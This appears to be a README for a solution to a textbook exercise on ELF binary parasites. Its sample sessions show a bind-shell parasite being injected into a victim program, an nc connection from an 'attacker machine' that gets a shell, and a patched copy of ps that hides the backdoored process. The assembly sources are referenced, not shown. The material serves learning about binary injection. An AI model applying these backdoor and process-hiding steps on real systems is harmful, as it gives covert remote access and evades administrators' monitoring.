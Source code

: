 # An ELF Parasite

Write your own ELF parasite and use elfinject to inject it into a program
of your choice. See whether you can make the parasite fork off a child
process that opens a backdoor. Bonus points if you can create a modiﬁed
copy of ps that doesn’t show the parasite process in the process listing.

## Solution

victim.c (acts as the host binary)\
elf-parasite.s (acts as a bind shell)

## Bonus Solution

ps-parasite.s (acts as the process hider)

## Sample Session

Victim machine:

```
$ gcc -o victim victim.c
$ nasm -f bin -o elf-parasite.bin elf-parasite.s
$ ./elfinject victim elf-parasite.bin ".parasite" 0x800000 0
$ ./victim
I'm a victim!
$ netstat -ap tcp | grep victim
tcp        0      0 *:19484    *:*    LISTEN    10662/victim 
```

Attacker machine:

```
$ nc -nv 10.0.0.33 19484
found 0 associations
found 1 connections:
     1: flags=82<CONNECTED,PREFERRED>
        outif en0
        src 10.0.0.37 port 61034
        dst 10.0.0.33 port 19484
        rank info not available
        TCP aux info available

Connection to 10.0.0.33 port 19484 [tcp/*] succeeded!
whoami
admin
exit
```

## Sample Session (Bonus)

```
$ nasm -f bin -o ps-parasite.bin ps-parasite.s
$ python3 ps-patch.py
[*] Copying /bin/ps to [...]
[*] Applying readproc patch at offset 0x2cf9
[*] Applying readproctab2 patch at offset 0x2909
[*] Done applying patches
$ ./elfinject ps-modified ps-parasite.bin ".parasite" 0x800000 -1
$ ./victim
I'm a victim!
$ netstat -ap tcp | grep victim
tcp        0      0 *:19484    *:*    LISTEN    10662/victim 
$ ./ps-modified # the victim process isn't visible
[...]
$ ./ps-modified aux # the victim process isn't visible
[...]
$ ./ps-modified -e # the victim process isn't visible
[...]
$ ./ps-modified -ef # the victim process isn't visible
[...]
$ ./ps-modified f (invokes readproctab2) # the victim process isn't visible
[...]
